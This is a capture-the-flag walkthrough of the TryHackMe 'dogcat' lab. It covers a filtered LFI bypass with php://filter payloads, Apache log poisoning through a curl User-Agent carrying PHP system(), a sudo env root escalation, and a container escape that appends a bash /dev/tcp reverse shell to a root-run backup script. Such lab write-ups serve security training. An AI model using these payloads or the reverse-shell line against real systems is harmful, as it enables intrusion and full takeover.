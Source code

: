 # [dogcat](https://tryhackme.com/room/dogcat)

## Getting Access

First off, `nmap`

```
# Nmap 7.91 scan initiated Sun Jun 13 15:48:41 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.91.107
Nmap scan report for box.ip (10.10.91.107)
Host is up, received conn-refused (0.36s latency).
Scanned at 2021-06-13 15:48:42 +07 for 20s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 13 15:49:02 2021 -- 1 IP address (1 host up) scanned in 20.82 seconds
```

Looking at the service on port 80, we have a page that shows random images of dogs and cats.

![cat pic](./dogcat.png)

Looking at the URL, we have a parameter we can try injecting stuff with, so let's try LFI (local file inclusion)

![LFI with /etc/passwd](./lfi-only-dogcat.png)

> Sorry, only dogs or cats are allowed.

We seem to need "dog" or "cat" in the query, so let's try `/?view=cat/../../../../../etc/passwd`

![LFI with /etc/passwd with bypass](./lfi-passwd.png)

> `Warning: include(cat/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24`
> `Warning: include(): Failed opening 'cat/../../../../../etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24`

Our payload made it pass the "dog/cat" filter but `/etc/passed` still can't be included. Looking at the error messages, we can see `.php` is appended to whatever file we're putting in the query so let's try to include a file we know exists: `index.php`

![LFI with index.php](./lfi-index.png)

> `Fatal error: Cannot redeclare containsStr() (previously declared in /var/www/html/index.php:17) in /var/www/html/index.php on line 17`

The error message tells us the PHP file `index.php` was included and *executed*, as `containsStr()` was declared in `index.php` and then redeclared. It also tells us that `containsStr()` is likely one of the filters (or is the only filter) for our input in `view=`, checking whether or not the payload contains the string "dog" or "cat".

The above behavior indicates that the page uses the input of `view` to execute the appropriate PHP file, namely `dog.php` and `cat.php`. A PHP function that executes another PHP file is `include`, and of course it's commonly seen in PHP LFI vulnerabilities. Looking at [hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers), we see that we can exfiltrate files with the payload `php://filter/convert.base64-encode/resource=index.php`. Replacing the `index.php` with our custom payload to include the string "dog" and exclude the extension gives us: `php://filter/read=convert.base64-encode/resource=dog/../index`.

Using the above payload, we exfiltrate `index.php`.

![Exfiltrated `index.php`](./index.php.png)

The base64 gives us the following `index.php`

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
      $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

We see here that we can control the appended extension with the `ext` parameter.

According to our `nmap` result, the server is running Apache, so we check its log file, which is `/var/log/apache2/access.log`, using the payload (set the `ext` parameter to remove `.php`):

```
/?ext=&view=php://filter/read=convert.base64-encode/resource=dog/../../../../../../../../var/log/apache2/access.log
```

Looking at the logs, we can see the `User-Agent` in the logs. With this, we can try log poisoning (read about it [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)) by editing the `User-Agent` in something like Burp Suite to include the PHP code `<?php system($_GET['c']); ?>`.

To poison the logs, make a request with some PHP code

```sh
curl 'http://box.ip/' -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

I've tried a bash reverse shell which doesn't work. We need to put a PHP reverse shell on the system, which can easily be done with `base64` and `echo`. With that, we should have a reverse shell.

## Privilege Escalation

Checking `sudo -l`, we get the following

```sh
$ sudo -l
Matching Defaults entries for www-data on c905b8476651:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on c905b8476651:
    (root) NOPASSWD: /usr/bin/env
```

[gtfobins](https://gtfobins.github.io/gtfobins/env/#shell) shows we can get a root shell with `env /bin/bash`

```sh
$ sudo env /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
```

With this, we can get a flag in `/root`. However, that's only flag 3. Checking `/`

```sh
ls -la /
total 80
drwxr-xr-x   1 root root 4096 Jun 13 10:20 .
drwxr-xr-x   1 root root 4096 Jun 13 10:20 ..
-rwxr-xr-x   1 root root    0 Jun 13 10:20 .dockerenv
drwxr-xr-x   1 root root 4096 Feb 26  2020 bin
drwxr-xr-x   2 root root 4096 Feb  1  2020 boot
drwxr-xr-x   5 root root  340 Jun 13 10:20 dev
drwxr-xr-x   1 root root 4096 Jun 13 10:20 etc
drwxr-xr-x   2 root root 4096 Feb  1  2020 home
drwxr-xr-x   1 root root 4096 Feb 26  2020 lib
drwxr-xr-x   2 root root 4096 Feb 24  2020 lib64
drwxr-xr-x   2 root root 4096 Feb 24  2020 media
drwxr-xr-x   2 root root 4096 Feb 24  2020 mnt
drwxr-xr-x   1 root root 4096 Jun 13 10:20 opt
dr-xr-xr-x 107 root root    0 Jun 13 10:20 proc
drwx------   1 root root 4096 Jun 13 10:56 root
drwxr-xr-x   1 root root 4096 Feb 26  2020 run
drwxr-xr-x   1 root root 4096 Feb 26  2020 sbin
drwxr-xr-x   2 root root 4096 Feb 24  2020 srv
dr-xr-xr-x  13 root root    0 Jun 13 10:48 sys
drwxrwxrwt   1 root root 4096 Mar 10  2020 tmp
drwxr-xr-x   1 root root 4096 Feb 24  2020 usr
drwxr-xr-x   1 root root 4096 Feb 26  2020 var
```

We have `.dockerenv` which means we're inside a docker container. To get the fourth flag, we need to break out of this container.

Looking at `/opt`, we see a `backups` directory with a `backup.sh` script

```sh
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Jun 13 10:20 .
drwxr-xr-x 1 root root 4096 Jun 13 10:20 ..
drwxr-xr-x 2 root root 4096 Apr  8  2020 backups

cd backups

ls -l
total 2884
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Jun 13 11:07 backup.tar

cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Looking at the timestamp of `backup.tar`, we can assume that `backup.sh` is run regularly, possibly every minute. Assuming it's run by the parent machine, we can put in it a reverse shell.

```sh
echo "bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/PORT <&1'" >> backup.sh
```

With that, you should get a shell on the parent machine and grab the final flag!
